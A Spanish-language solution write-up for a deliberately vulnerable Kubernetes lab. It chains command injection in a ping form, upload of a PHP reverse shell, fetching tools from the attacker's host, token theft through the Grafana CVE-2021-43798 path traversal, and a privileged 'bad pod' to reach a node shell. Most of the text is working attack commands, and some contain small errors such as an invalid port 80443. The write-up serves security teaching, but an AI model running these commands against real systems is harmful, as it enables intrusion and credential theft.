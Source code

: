# Solución del laboratorio

## Web LFI
Tras deplegar el laboratorio, obtenemos al dirección de una página web donde se puede hacer ping a distintas direcciones.

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png)

Como se está ejecutando el comando ping, comprobamos si se puede saltar los filtros para poder obtener un LFI, por ejemplo:
```bash 
google.com;ls -l
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png)

## LFI a RCE

Como se puede observar en la imagen anterior, la página es vulnerable a LFI. Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos: 

1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64. 
```bash 
base64 php-revshell.php 
``` 

2. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
```bash 
google.com;echo "<php-revshell in base64>" | base64 -d > shell.php
``` 

3. Verificamos que se ha subido el archivo shell.php: 
```bash
google.com;ls -l 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png)

4. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443: 
``` bash
nc -lvp 80443
```
5. Una vez escuchando en el puerto, ejecutamos el comando:
```bash
curl http://<ip-web>:<puerto-web>/shell.php
```
Conseguimos la reverse shell del pod donde se está ejecutando el servicio web. 

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png) 

## Reconocimiento en el pod

Una vez dentro hacemos un reconocimiento en el pod: 
1. Verificamos si podemos crear otros pods, para ello pasamos un binario de kubectl desde nuestra máquina creando un servidor web con python (recomendable copiar el bianrio en el archivo /tmp y ejecutar el comando ahí): 
```bash 
python3 -m http.server
``` 

Descargamos el binario y damos permisos de ejecución: 
```bash
wget 192.168.1.131:8000/kubectl
chmod +x kubectl
``` 
Verificamos si es posible la creación de pods:
```bash
./kubectl auth can-i create pods
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png)

2. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo. 
```bash 
env 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png)

Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.

``` bash 
apk add curl
curl http://10.103.238.75:3000/login | grep version 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png)

## Grafana Path Traversal

1. Buscamos posibles vectores de ataque. La versión de Grafana es la "8.3.0-beta2", la cual es vulnerable a Path Traversal, es decir, podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581). Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token. Creamos una variable de entorno llamada token donde se encuentra el JWT del pod de Grafana.

``` bash 
wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
export token=$(cat token)
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png) 

2. Comprobamos si el posible crear pods con el token de Grafana: 

``` bash 
./kubectl auth can-i create pods --token=$token
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png)

## Escalar al nodo de Minikube

Como es posible crear pods, para escalar al nodo, es posible crear un [badpods](https://github.com/BishopFox/badPods) para escalar al nodo de Minikube.  Este es el YAML que utilizaremos: [bad-pod.yaml](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/kube-lab/lab-pentest/bad-pod.yaml).

1. Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:

``` bash 
wget 192.168.1.131:8000/bad-pod.yaml ./kubectl apply -f bad-pod.yaml --token=$token
```

2. Vemos que se ha creado es nuevo pod:

``` bash
./kubectel get pods --token=$token
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png)

3. Una vez su status esté en Running, ejecutamos el comando siguiente y obtenemos la shell del nodo.

```bash
./kubectl exec -it everything-allowed-exec-pod --token=$token -- sh
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png)


Dentro de la shell de un nodo Minikube, se puede realizar diversas operaciones para gestionar y monitorear clústeres Kubernetes locales. Utilizando comandos como kubectl para interactuar con tus aplicaciones y recursos en el clúster, por ejemplo, desplegar y escalar aplicaciones, ver logs, y ejecutar comandos en contenedores. 